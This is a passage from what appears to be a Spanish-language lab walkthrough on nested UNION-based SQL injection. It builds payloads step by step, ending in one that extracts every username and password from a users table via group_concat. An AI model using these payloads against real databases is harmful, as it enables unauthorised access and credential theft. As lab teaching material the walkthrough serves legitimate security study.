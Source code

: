 Vemos que en la segunda consulta, la cláusula `WHERE` contiene un ID, anteriormente no sucedía eso, si no que nos devolvía la información del libro en cuestión.

Gracias a esto, ahora tenemos control total de la segunda consulta, donde podemos usar *UNION-based SQL injection* para extraer toda la información de la base de datos.

Nuestro objetivo en cuestión es que la segunda consulta sea algo similar a:

```sql
SELECT * FROM book WHERE id = ' ' UNION SELECT 1,2,3,4-- -
```

Por tanto, si nos fijamos en la imagen, vemos que la cláusula `LIKE` al hacer uso de  `test' UNION SELECT '1'-- -` nos devuelve un ID, por tanto el código a inyectar quedaría:

```sql
SELECT * FROM book WHERE id = ' ' UNION SELECT '-1' UNION SELECT 1,2,3,4- -
```

Tendríamos como resultado:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 19.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Ahora podemos hacer:

```sql
' union select '-1''union select 1,group_concat(username),group_concat(password),2 from users-- -
```

---